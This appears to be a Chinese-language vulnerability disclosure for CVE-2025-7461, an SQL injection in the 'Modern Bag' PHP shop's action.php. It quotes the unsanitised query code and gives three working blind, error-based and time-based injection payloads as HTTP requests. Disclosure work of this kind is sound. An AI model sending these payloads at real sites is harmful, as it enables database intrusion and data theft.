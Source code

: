 # Modern Bag 电商系统 SQL 注入漏洞分析 (CVE-2025-7461)

🌐 **Language / 语言**: [English](README.md) | **简体中文**

---

## 漏洞概览
漏洞库：
[https://vuldb.com/?id.316112](https://vuldb.com/?id.316112)

项目地址：
[https://code-projects.org/modern-bag-in-php-css-javascript-and-mysql-free-download/](https://code-projects.org/modern-bag-in-php-css-javascript-and-mysql-free-download/)

| 项目 | 内容 |
| --- | --- |
| **产品名称** | Modern Bag 电商系统 |
| **版本** | V1.0 |
| **漏洞类型** | SQL 注入 (Boolean-based blind, Error-based, Time-based blind) |
| **受影响文件** | `/action.php` |
| **危险等级** | 中危 |
| **CVSS 3.1 评分** | **6.9** |


## 漏洞详细分析
### 漏洞位置
**主要漏洞点：** `action.php` 第 272-289 行

```php
// 漏洞点
if (isset($_POST["addToProduct"])) {
    if (isset($_SESSION["uid"])) {
        $p_id = $_POST["proId"];  // 直接获取用户输入
        $user_id = $_SESSION["uid"];
        
        // 直接拼接到 SQL 查询中，未进行任何过滤
        $sql = "SELECT * FROM cart WHERE p_id = '$p_id' AND user_id = '$user_id'";
        $run_query = mysqli_query($con, $sql);
        $count = mysqli_num_rows($run_query);
        // ... 后续代码
    }
}
```

### 🔬 漏洞成因分析
#### **缺乏输入验证**
```php
$p_id = $_POST["proId"]; 
```

#### **字符串拼接构造 SQL**
```php
$sql = "SELECT * FROM cart WHERE p_id = '$p_id' AND user_id = '$user_id'";
```

#### **缺乏错误处理**
```php
$run_query = mysqli_query($con, $sql)
    or die(mysqli_error($con));  // ❌ 直接暴露数据库错误
```



## 攻击分析
#### 1. **Boolean-based Blind SQL 注入**
```http
POST /action.php HTTP/1.1
Content-Type: application/x-www-form-urlencoded

addToProduct=1&proId=1' RLIKE (SELECT (CASE WHEN (7142=7142) THEN 1 ELSE 0x28 END))-- jeVr
```

**攻击原理：**

```sql
-- 构造的 SQL 查询
SELECT * FROM cart WHERE p_id = '1' RLIKE (SELECT (CASE WHEN (7142=7142) THEN 1 ELSE 0x28 END))-- jeVr' AND user_id = '1'

-- 实际执行的查询
SELECT * FROM cart WHERE p_id = '1' RLIKE (SELECT (CASE WHEN (7142=7142) THEN 1 ELSE 0x28 END))-- jeVr
```

#### 2. **Error-based SQL 注入**
```http
POST /action.php HTTP/1.1
Content-Type: application/x-www-form-urlencoded

addToProduct=1&proId=1' OR (SELECT 7784 FROM(SELECT COUNT(*),CONCAT(0x716a716271,(SELECT (ELT(7784=7784,1))),0x717a6b7871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- yVDw
```

#### 3. **Time-based Blind SQL 注入**
```http
POST /action.php HTTP/1.1
Content-Type: application/x-www-form-urlencoded

addToProduct=1&proId=1' AND (SELECT 9674 FROM (SELECT(SLEEP(5)))YLuC)-- ZZFJ
``` 